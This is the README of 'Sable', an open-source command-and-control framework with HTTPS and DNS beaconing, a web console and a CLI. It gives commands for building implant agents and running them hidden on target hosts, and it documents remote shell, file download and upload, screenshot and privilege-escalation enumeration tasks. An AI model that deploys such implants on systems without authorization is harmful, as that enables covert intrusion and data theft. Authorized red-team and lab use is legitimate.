

<h1 align="center">Sable</h1>

<p align="center">
  Open source C2
</p>

<p align="center">
  Go | HTTPS + DNS transports | Web UI + CLI
</p>

Sable is a C2 written in Go. The server takes encrypted beacons from agents over HTTPS, with DNS as a fallback, and exposes a browser console and an interactive CLI for tasking.

---

## Interface Preview

Password-gated operator console on loopback HTTPS:


Active session view with command output, the Task Builder, and the full action menu:


Session details rail for jobs, artifacts, notes, and audit history:


Remote file browser for selecting download paths:


---

## Authorized Use

Sable is intended for educational use, controlled labs, CTFs, owned systems, and engagements where you hold written authorization. Do not deploy it against systems you do not own or do not have explicit permission to test. The author accepts no responsibility for misuse.

---

## Architecture



Each beacon is AES-256-GCM with an HKDF-derived key, then HMAC-SHA256'd over the agent ID and ciphertext (encrypt-then-MAC). Binding the agent ID into the MAC prevents cross-agent impersonation. A nonce cache rejects replays; the server drops anything outside a ±2 minute timestamp window.

### Network Ports

| Port | Bind | Purpose |
|------|------|---------|
| `443/tcp` | all interfaces | Agent HTTPS beacon listener. Needs root / admin to bind. |
| `8443/tcp` | `127.0.0.1` only | Operator web UI and REST API. Tunnel over SSH for remote access. |
| `53/udp` | all interfaces | Optional DNS beacon listener. Off unless the server is launched with `--dns-domain`, `SABLE_DNS_DOMAIN`, or `DNS_DOMAIN`. |

---

## Prerequisites

- Go 1.26.2 or later (matches `go.mod`)
- `make` (Linux, macOS, or Windows; PowerShell or cmd)
- Root / admin on the server host if binding `443` (and `53` when DNS fallback is on)

Agents cross-compile through `GOOS`/`GOARCH`, so you can build from any host OS.

---

## Quick Start

### 1. Clone

```sh
git clone https://github.com/aelder202/sable
cd sable
```

Modules pull on the first build. Run `go mod download` if you want to pre-warm the cache.

### 2. Install

Build the unified helper, then let it create the local config, TLS certificate, server binary, selected agent binaries, and `.sable/install.json` manifest.

```sh
make sablectl
./sablectl install --url https://<your-server-ip>:443
```

To build both Linux and Windows agents with separate identities:

```sh
./sablectl install --url https://<your-server-ip>:443 --agents both --windows-label win01
```

`SERVER_URL` is the address agents beacon to, not the operator UI. `sablectl install` writes `config.env`, `server.crt`, `server.key`, `.sable/install.json`, and builds artifacts under `builds/<label>/`. These files are gitignored and include secrets.

### 3. Start

Keep the server binary, `server.crt`, and `server.key` in the same directory. Use a password file to keep the operator password out of shell history.

**Linux / macOS**

```sh
printf '%s' 'yourpassword' > ./pw.txt
chmod 600 ./pw.txt
./sablectl start --password-file ./pw.txt
```

**Windows (PowerShell)**

```powershell
Set-Content -Encoding ascii -NoNewline .\pw.txt "yourpassword"
.\sablectl.exe start --password-file .\pw.txt
```

`SABLE_OPERATOR_PASSWORD` and stdin both work too.

By default the server persists operator state to `sable-state.json` in the working directory. That file lets registered agents, queued tasks, output history, notes, tags, and audit events survive a restart. It contains agent secrets, so treat it like `config.env`. Move it with `--state-file <path>` or `SABLE_STATE_FILE=<path>`, or disable persistence with `--state-file none`.

The server prints its TLS fingerprint and listener status:

```text
[*] TLS cert fingerprint (SHA-256): 3a1f...b9c4
[*] Operator API on https://127.0.0.1:8443 | Agent listener on :443
```

The fingerprint is already baked into the agent binary because setup runs before compile.

The operator API binds to loopback only. Reach it on the server host directly, or tunnel:

```sh
ssh -L 8443:127.0.0.1:8443 user@sable-host
```

### 4. Register The Main Agent

The first agent identity is `main`. `sablectl install` builds it at `builds/main/agent-linux`, but it can only be registered after the server API is running.

In a second terminal on the server host, run:

```sh
./sablectl agent register main --password-file ./pw.txt
```

If you want install to start the server and register generated identities in one pass, create the password file first and use:

```sh
./sablectl install --url https://<your-server-ip>:443 --password-file ./pw.txt --start
```

### 5. Add Or Rebuild Agents

Create another local identity, then build it:

```sh
./sablectl agent add windows --label win01
./sablectl agent build win01
./sablectl agent register win01 --password-file ./pw.txt
```

After source changes, rebuild without remembering which target changed:

```sh
./sablectl rebuild
```

### 6. Deploy the agent

Linux:

```sh
scp builds/main/agent-linux user@target:/tmp/agent
ssh user@target "chmod +x /tmp/agent && /tmp/agent &"
```

Windows:

```powershell
make build-agent-windows
Copy-Item .\builds\main\agent.exe C:\Temp\agent.exe
Start-Process -FilePath C:\Temp\agent.exe -WindowStyle Hidden
```

The agent shows up in the console within one beacon interval.

### 6. Open the console

`https://127.0.0.1:8443` on the server host (or through the tunnel). Accept the self-signed cert and log in with the operator password.

After login the console lists registered sessions, last-seen status, output, and the Task Builder.

---

## Operator Interfaces

### Web UI

Sessions live in the left sidebar. Anything quiet for 3–10 minutes goes yellow; past 10 minutes goes red. Hover for the exact last-seen timestamp. Press `/` to focus the filter.

The main console is split into Output and Task Builder. Output shows queued task echoes, task results, progress messages, errors, and saveable artifact rows. Use the output type filter to focus on shell output, operator events, artifacts, errors, or progress. Expand **Search Output** to filter rendered output rows only. Output rows can be pinned or copied without leaving the console. **Jump To Latest** resumes the live tail after scrolling up.

Use **Clear Output** to clear the selected session's output history on the server. Cleared output stays cleared after switching sessions or reloading the page. Use **Save Output** to snapshot the currently rendered output as a `.txt` artifact under **Session Details -> Artifacts**. Saved output, screenshots, downloads, PEAS, and snapshot results are stored as server-side artifacts so they remain available after a browser refresh.

The Task Builder groups actions by command, situational awareness, file handling, and session control. It keeps the command line on its own full-width row only for actions that need operator input, such as Shell, Download, Upload, and Sleep. One-click actions such as Processes, Screenshot, Snapshot, Persistence, PEAS, and Interactive hide the command line until input is actually needed. Download path autofill and the Download file browser both wait for the selected session to confirm the remote path browser is ready before their controls unlock. Drag the handle between Output and Task Builder to resize the console, or double-click it to reset the height.

Select sessions in the left sidebar to queue supported tasks across multiple sessions at once. Bulk queueing is available for Shell, Processes, Screenshot, Snapshot, Persistence, PEAS, and Sleep; file transfer, Interactive, and Kill remain single-session actions.

Session metadata and saved results open from **Session Details**. The default Timeline view combines queued jobs, running work, completed results, artifacts, and audit events for the selected session. Use the detail filter or tabs to focus on Jobs, Artifacts, Notes, or Audit.

When a task supports cancellation, the Task Builder shows a dedicated cancellation row above the action selector. PEAS runs as a background task and is currently the cancellable task type; use the visible **Cancel PEAS** control there instead of opening Session Details during execution.

**Console keys**

- **Enter** / **Send**: queue the task
- **Up / Down**: command history
- **Ctrl/Cmd + K**: focus the task input
- **Esc**: cancel an upload prompt or kill confirmation
- **Clear Output**: clear persisted output history for the selected session
- **Save Output**: save rendered output as a text artifact
- **Jump To Latest**: resume the live tail after scrolling up

#### Task Builder Actions

| Action | Input | Result |
|--------|-------|--------|
| **Shell** | Command string | Runs one bounded shell command (`/bin/sh -c` or `cmd /C`). Output cap 512 KB, timeout 60 seconds. Use Interactive for shell state that must persist across commands. |
| **Processes** | None | Returns a read-only process listing. |
| **Screenshot** | None | Captures one operator-initiated screenshot. The agent downscales/compresses it and returns a saveable artifact row. |
| **Snapshot** | None | Collects a bounded host snapshot report covering identity, network, route, disk, and environment basics. Returns a text artifact. |
| **Persistence** | None | Lists common autorun and persistence locations for defensive review. It does not modify the host. |
| **PEAS** | None | Runs the matching PEASS-ng helper for the session OS. Progress appears in Output; the final result is a saveable text artifact. |
| **Download** | Remote path | Reads a remote file up to 50 MB. Path suggestions and **Browse** help select a path; large results are chunked and reassembled server-side before the save action appears. |
| **Upload** | Local file and remote path | Sends a local file up to 50 MB to the selected session. Drag a file onto Output or use **Choose File**. Keep large uploads on HTTPS transport. |
| **Sleep** | Seconds, `1`-`86400` | Changes the selected session's beacon interval. |
| **Interactive** | None | Opens a persistent `/bin/sh` or `cmd.exe` session. The agent uses a 100 ms beacon interval while interactive mode is active. Use `exit`, `quit`, or **Exit** to return to normal tasking. |

#### Task Notes

##### Shell

Type `shell <command>` (or just type, with the `Shell` task type selected) and queue it.

Output is captured to 512 KB; the command runs under a 60-second deadline. For state that persists across commands (`cd`, environment variables, `source`), use interactive mode.

##### Situational awareness

Use **PS** to request a read-only process listing. Use **Persistence** to list common autorun locations such as Run keys, startup folders, scheduled tasks, systemd units, cron locations, and LaunchAgent folders depending on the agent OS.

Use **Screenshot** to take a single operator-initiated screenshot. The agent downscales and compresses the image, then sends it through bounded result chunks; it is not a continuous capture stream.

Use **PEAS** to run the matching PEASS-ng helper for the selected session OS: LinPEAS on Linux/macOS and winPEAS on Windows. Agent builds can embed cached PEAS scripts for offline targets; otherwise the agent downloads the matching helper at run time. Progress entries are posted while it prepares and runs, and the final output is captured as a text artifact and returned as a saveable result.

For offline PEAS support, run `make update-peas` before building an agent, or use `make build-offline-peas`, `make build-agent-linux-offline-peas`, or `make build-agent-windows-offline-peas`. The updater caches the latest PEASS-ng scripts under `internal/agent/peas/`; those local copies are embedded into subsequently built agent binaries and are ignored by git.

Use **Snapshot** for a bounded text report covering identity, network, route, disk, and environment basics.

##### Interactive shell

Select **Interactive** in the composer to bring up `/bin/sh` (Linux) or `cmd.exe` (Windows), bound to the agent for the life of the session.

The agent flips to a 100 ms beacon interval while interactive mode is on. Output streams over SSE as fast as each beacon round-trips. The console border turns green and the prompt picks up the agent hostname. Input stays locked with `waiting for agent...` until the agent confirms it is in fast-beacon mode.

`exit`, `quit`, or the **Exit** button drops back to normal mode.

The shell runs over pipes, not a PTY. Anything that needs a real TTY (`vim`, `top`, `sudo` with a password prompt) will misbehave. A command that runs silently for 60+ seconds (`sleep 9999`) trips the timeout and respawns the shell.

##### Download

`download <path>`. The composer prepares a remote path browser as soon as the session is online and keeps it ready while the agent stays online. Use **Browse** in the Download task to open the modal file explorer with parent navigation, refresh, and file download actions.

You may also choose to instead type a partial path on the command line for live suggestions: click a directory to keep browsing, the `...` row to go up, or a file to fill the final path.

The agent reads files up to 50 MB, base64-encodes them, and the browser auto-decodes and saves them. Large results are split into bounded chunks and reassembled server-side before the web UI offers the save action. Use HTTPS transport for large downloads.

##### Upload

Click **Upload** or drag a file onto the output area. Enter the remote destination path when prompted.

Uploads cap at 50 MB. Large uploads are still delivered as a single HTTPS task payload, so keep upload tasks on HTTPS rather than DNS transport.

#### Kill safety

Queueing `kill` requires a second confirmation click. There is no undo.

### CLI

The server has to be running first. Open another terminal on the same host:

```sh
./sable-server --cli                  # Linux / macOS
.\sable-server.exe --cli              # Windows
```

For a non-default loopback port or an SSH-tunneled API, point at it explicitly:

```sh
./sable-server --cli --api https://127.0.0.1:9443
```

The CLI is queue-oriented and does not live-stream output or auto-decode downloads. Use the web UI or `GET /api/agents/:id/tasks` to review results.

| Command | Description |
|---------|-------------|
| `agents` | List sessions and last-seen times |
| `register <id> <secret-hex>` | Pre-register an agent |
| `use <agent-id>` | Select a session |
| `shell <command>` | Queue a shell command |
| `ps` | Queue a read-only process listing |
| `screenshot` | Queue one bounded screenshot |
| `persistence` | Queue a defensive persistence-location listing |
| `peas` | Run LinPEAS or winPEAS and return a text output artifact |
| `snapshot` | Queue a bounded host snapshot text artifact |
| `cancel <task-id>` | Cancel a running background task such as PEAS |
| `download <remote-path>` | Queue a file read |
| `upload <local-path> <remote-path>` | Read a local file, base64-encode, queue an upload |
| `sleep <seconds>` | Change the beacon interval |
| `kill` | Terminate the agent |
| `back` | Return to the main prompt |
| `help` | List all commands |
| `exit` / `quit` | Close the CLI |

---

## More Workflows

### Adding more agents

`sablectl install` creates the first identity in `config.env` with label `main`. Register it after the server is running:

```sh
./sablectl agent register main --password-file ./pw.txt
```

Every additional agent gets its own env file under `agents/<label>.env`:

```sh
./sablectl agent add linux --label web01
./sablectl agent build web01
./sablectl agent register web01 --password-file ./pw.txt
```

Labels must be lowercase with letters, digits, `-`, or `_`. `PC` and `VM` get rejected; use `pc` and `vm`.

To ship that agent:

```sh
scp builds/web01/agent-linux user@target:/tmp/agent
ssh user@target "chmod +x /tmp/agent && /tmp/agent &"
```

### Manual registration

`sablectl agent register` is the easy path. The interactive server CLI works too:

```sh
./sable-server --cli
[sable]> register <agent-id-from-config.env> <secret-hex-from-config.env>
```

Or hit the REST API:

```sh
TOKEN=$(curl -sk -X POST https://127.0.0.1:8443/api/auth/login \
  -H 'Content-Type: application/json' \
  -d '{"password":"yourpassword"}' | jq -r .token)

curl -sk -X POST https://127.0.0.1:8443/api/agents \
  -H "Authorization: Bearer $TOKEN" \
  -H 'Content-Type: application/json' \
  -d "{\"id\":\"<agent-id>\",\"secret_hex\":\"<secret-hex>\"}"
```

### Rebuilding after changes

```sh
make wizard
# or, for the standard server + Linux agent bundle:
make build
```

The wizard detects the existing `config.env` and lets you rebuild server and agent artifacts without re-entering secrets. `make rebuild` is an alias for `make build`.

Restart the server after rebuilding. Web UI assets are embedded into the binary, so a browser refresh alone will not pick up `web/` changes. If agent code changed, redeploy the agent artifact to authorized systems:

```sh
pkill -f agent && scp builds/main/agent-linux user@target:/tmp/agent
ssh user@target "chmod +x /tmp/agent && /tmp/agent &"
```

To re-key, delete `config.env`, `server.crt`, and `server.key` and re-run `make wizard`.

### Building for other platforms

```sh
make build-agent-linux
make build-agent-windows
make build-server
```

For a target the Makefile does not cover, set `GOOS`/`GOARCH` directly:

```sh
GOOS=darwin GOARCH=arm64 go build \
  -ldflags "-s -w \
    -X 'github.com/aelder202/sable/internal/agent.AgentID=<id>' \
    -X 'github.com/aelder202/sable/internal/agent.SecretHex=<hex>' \
    -X 'github.com/aelder202/sable/internal/agent.ServerURL=<url>' \
    -X 'github.com/aelder202/sable/internal/agent.CertFingerprintHex=<fp>'" \
  -o agent-macos ./cmd/agent
```

Pull the values from `config.env` or `agents/<label>.env`.

### DNS fallback

Optional. Start the server with the authoritative domain agents will use:

```sh
./sable-server --password-file ./pw.txt --dns-domain c2.example.com
```

`SABLE_DNS_DOMAIN=c2.example.com` or `DNS_DOMAIN=c2.example.com` work too. The UDP `:53` listener comes up and accepts beacon queries under that domain.

Build agents with the same domain:

```sh
make build-agent-linux DNS_DOMAIN=c2.example.com
```

The agent tries HTTPS first and falls back to DNS if HTTPS is unreachable. UDP 53 has to be reachable and the NS record needs to point to the Sable server. DNS is fine for check-ins and small responses; uploads should stay on HTTPS.

---

## Task Reference

| Command | Syntax | Notes |
|---------|--------|-------|
| `shell` | `shell <command>` | One-shot in normal mode (`/bin/sh -c` or `cmd /C`). In interactive mode, writes to the persistent shell. 512 KB output cap, 60s timeout. |
| `ps` | `ps` | Read-only process listing. Output cap 48 KB. |
| `screenshot` | `screenshot` | One operator-initiated bounded screenshot. Returns a chunked image result, not a stream. |
| `persistence` | `persistence` | Read-only listing of common persistence locations for the agent OS. Output cap 48 KB. |
| `peas` | `peas` | Runs embedded LinPEAS/winPEAS when available, otherwise downloads the matching helper. Returns output as a text artifact. |
| `snapshot` | `snapshot` | Collects a bounded host snapshot report and returns it as a text artifact. |
| `ls` | Internal File Browser task | Read-only structured directory listing used by the Download task's Browse button. |
| `cancel` | `cancel <task-id>` | Cancels a running background task when supported. |
| `interactive` | Web UI / API | Open or close a persistent shell on the agent. |
| `download` | `download <remote-path>` | Read a file off the agent. 50 MB cap; results are chunked and reassembled server-side. |
| `upload` | `upload <local> <remote>` (CLI) or **Upload** (Web UI) | Push a file to the agent. 50 MB cap; use HTTPS transport for large files. |
| `pathbrowse` | Web UI Download field | Internal: primes fast beaconing for the path browser. |
| `complete` | Web UI Download field | Internal: lists matching paths under the typed prefix. Extends the fast path-browse window. |
| `sleep` | `sleep <seconds>` | Change beacon interval. Range 1–86400. |
| `kill` | `kill` | Terminate the agent process. Web UI confirms twice. |

---

## REST API

Everything except `/api/auth/login` requires `Authorization: Bearer <jwt>`.

| Method | Path | Notes |
|--------|------|-------|
| `POST` | `/api/auth/login` | `{"password":"..."}` → `{"token":"..."}`. |
| `GET` | `/api/agents` | List agents. |
| `POST` | `/api/agents` | Register. `{"id":"...","secret_hex":"..."}`. `id` is 1–64 alphanumeric+hyphen. |
| `GET` | `/api/agents/:id` | Single agent with task output history. |
| `POST` | `/api/agents/:id/task` | Queue a task. `{"type":"shell","payload":"id"}`. Types: `shell`, `ps`, `screenshot`, `persistence`, `peas`, `snapshot`, `ls`, `cancel`, `download`, `upload`, `complete`, `pathbrowse`, `sleep`, `kill`, `interactive`. `sleep` takes 1–86400, `cancel` takes a task ID, `ls`/`download` take a path, no-payload actions reject payloads. |
| `GET` | `/api/agents/:id/queued` | List queued tasks that have not yet been delivered to the agent. |
| `DELETE` | `/api/agents/:id/tasks/:taskID` | Remove a queued task before delivery. |
| `PUT` | `/api/agents/:id/metadata` | Update operator notes and tags for a session. |
| `GET` | `/api/agents/:id/artifacts` | List server-side artifact summaries without embedded data. |
| `POST` | `/api/agents/:id/artifacts` | Save an operator artifact. Body includes `filename`, base64 `data`, and optional `key`, `task_id`, `label`, `mime`, `archive_filename`, and `compress`. |
| `GET` | `/api/agents/:id/artifacts/:artifactID` | Return a full artifact including base64 `data` for download or restore. |
| `GET` | `/api/agents/:id/tasks` | Output history. |
| `DELETE` | `/api/agents/:id/tasks` | Clear output history for the selected session. |
| `GET` | `/api/agents/:id/terminal/stream` | SSE stream of task output. Used by the web UI for real-time interactive output and path completion. Write deadline is disabled here; everywhere else it is 10s. |
| `GET` | `/api/audit` | Recent operator and session audit events. |

---

## Configuration

### Variables

| Variable | Used by | Notes |
|----------|---------|-------|
| `SERVER_URL` | `make wizard`, `make setup`, agent builds | HTTPS URL agents beacon to. Usually `https://<public-ip>:443`. |
| `LABEL` | `make wizard`, `make setup`, `make register NEW=1` | Identity / build directory name. |
| `PROFILE` | `make wizard`, `make setup` | Optional setup profile: `default`, `fast`, `quiet`, or `dns`. |
| `AGENT_PROFILE` | generated env, agent builds | Profile name baked into the env file for traceability. |
| `AGENT_ENV` | build + register targets | Env file. Defaults to `config.env`; `agents/<label>.env` for additionals. |
| `AGENT_ID` | agent builds, registration | Identity. Generated by `make wizard`, `make setup`, or `make register NEW=1`. |
| `AGENT_SECRET_HEX` | agent builds, registration | 32-byte secret as 64 hex chars. |
| `CERT_FP_HEX` | agent builds | SHA-256 of the server cert. Pinned by the agent. |
| `SLEEP_SECONDS` | agent builds | Initial beacon interval. Default `30`. |
| `DNS_DOMAIN` | server + agent builds | DNS fallback domain. Enables `:53` on the server unless `--dns-domain` / `SABLE_DNS_DOMAIN` is used. |
| `SABLE_DNS_DOMAIN` | server | Preferred env var for DNS fallback. |
| `--dns-domain` | server | Flag form. |
| `SABLE_STATE_FILE` | server | Optional path for persisted operator state. Defaults to `sable-state.json`; set to `none`, `off`, or `disabled` to keep state in memory only. |
| `--state-file` | server | Flag form for persisted operator state. |
| `--debug-addr` | server | Loopback-only pprof endpoint, e.g. `127.0.0.1:6060`. For diagnosing stalls. |
| `WIZARD_ARGS` | `make wizard`, `make install` | Optional flags forwarded to the setup wizard, such as `--yes --server-url ... --agents both`. |
| `NEW` | `make register` | `NEW=1` mints another identity. |
| `PASSWORD` | `make register` | Operator password used by the registration call. |

### Agent profiles

`make wizard` and `make setup` default to a 30-second beacon. Use `PROFILE=fast` for local testing, `PROFILE=quiet` for a slower default interval, or `PROFILE=dns DNS_DOMAIN=<domain>` to generate an env file with DNS fallback configured.

```sh
make wizard WIZARD_ARGS="--server-url https://<your-server-ip>:443 --profile fast"
make setup SERVER_URL=https://<your-server-ip>:443 PROFILE=fast
make setup SERVER_URL=https://<your-server-ip>:443 PROFILE=dns DNS_DOMAIN=c2.example.com
```

### Operator password sources

The server reads, in order:

1. `SABLE_OPERATOR_PASSWORD`
2. `C2_OPERATOR_PASSWORD`
3. `--password-file <path>`
4. stdin

Use a password file or env var. Avoid pasting the password into commands that end up in shell history.

---

## Build Targets

| Target | Output | Purpose |
|--------|--------|---------|
| `make sablectl` | `sablectl` / `sablectl.exe` | Build the unified install/start/rebuild/remove/doctor helper. |
| `make install` | `sablectl` / `sablectl.exe` | Compatibility alias that builds `sablectl`; run `sablectl install --url ...` for setup. |
| `make wizard` | config + selected builds | Legacy guided first-run and rebuild flow. Pass flags with `WIZARD_ARGS`. |
| `make setup` | `config.env`, `server.crt`, `server.key` | One-time init. Pass `SERVER_URL`, optional `LABEL`, `PROFILE`, and `DNS_DOMAIN`. |
| `make build` | server + Linux agent | Default build for the current host. |
| `make rebuild` | server + Linux agent | Alias for `make build` after source changes. |
| `make build-windows-server` | `sable-server.exe` + Linux agent | Windows server bundle from a non-Windows host. |
| `make build-server` | server only | Rebuild the server. |
| `make build-agent-linux` | `builds/<label>/agent-linux` | Rebuild the Linux agent. |
| `make build-agent-windows` | `builds/<label>/agent.exe` | Build the Windows agent. |
| `make update-peas` | `internal/agent/peas/linpeas.sh`, `internal/agent/peas/winPEAS.bat` | Cache the latest PEASS-ng scripts locally for embedding into agent builds. |
| `make build-offline-peas` | server + Linux agent | Update PEAS cache, then run the default build with embedded offline PEAS support. |
| `make build-agent-linux-offline-peas` | `builds/<label>/agent-linux` | Update PEAS cache, then build the Linux agent with embedded offline PEAS support. |
| `make build-agent-windows-offline-peas` | `builds/<label>/agent.exe` | Update PEAS cache, then build the Windows agent with embedded offline PEAS support. |
| `make register` | — | Register the selected agent. `NEW=1` creates a new identity, `LABEL=<name>` controls path names. |
| `make gen-secret` | — | Print a random ID + 32-byte secret. |
| `make test` | — | Unit tests. |
| `make test-integration` | — | Integration tests (`integration` build tag). |

The server binary lands at the repo root. Agent binaries land in `builds/<label>/`. Pass `AGENT_ENV=agents/<label>.env` to target a non-default identity.

Prefer `sablectl` for new installs:

```sh
sablectl install --url https://10.0.0.5:443
sablectl start --password-file ./pw.txt
sablectl update
sablectl remove --keep-state
```

---

## Tests

```sh
make test
make test-integration
```

The integration suite is gated behind the `integration` build tag and skipped by `go test ./...`.

---

## Project Layout

```text
cmd/
  server/       - Sable server entry point (listeners + operator API)
  agent/        - agent entry point
internal/
  agent/        - beacon loop, task execution, HTTPS/DNS transports,
                  persistent shell session (shell_session.go)
  agentlabel/   - shared label validation and UUID-prefix fallback
  api/          - operator REST API, JWT auth, middleware,
                  SSE terminal stream (terminal.go)
  cli/          - interactive operator CLI
  crypto/       - AES-256-GCM + HKDF + HMAC primitives
  listener/     - HTTPS and DNS beacon listeners, TLS cert handling
  nonce/        - TTL nonce cache for replay protection
  protocol/     - beacon / task encode + decode
  session/      - in-memory session store with pub/sub for SSE
tools/
  wizard/       - guided local setup + rebuild flow
  setup/        - generates config.env + cert pair
  register/     - registers an agent via the REST API
  gensecret/    - prints a random agent ID + 32-byte secret
web/            - browser UI (HTML/CSS/JS), embedded into the server binary
agents/         - per-agent env files for additional identities (gitignored)
builds/         - per-agent build artifacts keyed by label (gitignored)
config.env      - generated by `make wizard` or `make setup` (gitignored - secrets)
sable-state.json - persisted server state: agents, queues, output, notes, audit (gitignored - secrets)
server.crt      - generated by `make wizard` or `make setup` (gitignored)
server.key      - generated by `make wizard` or `make setup` (gitignored)
```

---

## Security Notes

- Operator API binds to `127.0.0.1:8443` only. Off-host access goes through SSH.
- Agent secrets are excluded from API responses (`json:"-"`).
- Agents pin the server cert by SHA-256 fingerprint. A trusted-CA cert substitution does not help an attacker because the fingerprint check fails first.
- Operator password is hashed with Argon2id (t=3, m=64 MB, p=4). No plaintext storage.
- Nonce replay protection is an atomic check-and-record; no TOCTOU window between concurrent beacons.
- Per-source-IP rate limiting on both transports: 200 HTTPS / 128 DNS requests per 10s window. The HTTPS limit is high because interactive and path-browse modes beacon at 100 ms.
- Agent IDs are restricted to alphanumeric + hyphen at registration. No path traversal, no injection through the ID field.
- Task queues capped at 64 entries per agent; output history capped at 256.
- The SSE stream endpoint disables its write deadline for long-lived connections; a 15s keepalive comment keeps proxies from timing the stream out. Other endpoints enforce the 10s write deadline.
- `config.env`, `sable-state.json`, `server.crt`, `server.key`, `agents/*.env`, password files, and built agent binaries are sensitive. Do not commit them.
- On Unix-like systems: `chmod 600 config.env sable-state.json server.key pw.txt` and `chmod 700 agents`.
- Agents are stripped (`-s -w`), but ldflags string literals (server URL, agent ID, cert fingerprint) remain readable in `.rodata` via `strings`. Treat built agents as sensitive artifacts.

---

## Troubleshooting

| Symptom | Check |
|---------|-------|
| `bind: permission denied` | Run with root / admin, or change the listener ports. |
| `bind: address already in use` | Something else holds `443` or `8443`. Stop it or move ports. |
| Browser warns about the cert | Expected for the self-signed operator UI. Confirm you are hitting `https://127.0.0.1:8443`. |
| Web UI unreachable from another host | Loopback only. Use `ssh -L 8443:127.0.0.1:8443 user@sable-host`. |
| Agent does not appear | Confirm registration, matching `AGENT_ENV`, reachable `SERVER_URL`, correct cert fingerprint. |
| `make register` cannot connect | Run it on the server host with the server up, or hit the REST API through a tunnel. |
| Web UI changes do not show | Rebuild and restart the server. `web/` assets are embedded. |
| Upload rejected | Keep the file at or below 50 MB and use HTTPS transport for large uploads. DNS transport is intended for check-ins and small responses. |
| Download, screenshot, PEAS, or snapshot result is large | Results are split into bounded chunks and reassembled server-side before the UI offers the save action. Check output history if a chunked result appears delayed. |
| DNS fallback receives nothing | Confirm `--dns-domain` / `SABLE_DNS_DOMAIN`, UDP 53 reachability, the agent built with the same `DNS_DOMAIN`, and the NS record. |
| Server listening but unresponsive | Restart with `--debug-addr 127.0.0.1:6060`, then capture `http://127.0.0.1:6060/debug/pprof/goroutine?debug=2`. |

---

## License

GPL-3.0. See [LICENSE](LICENSE).
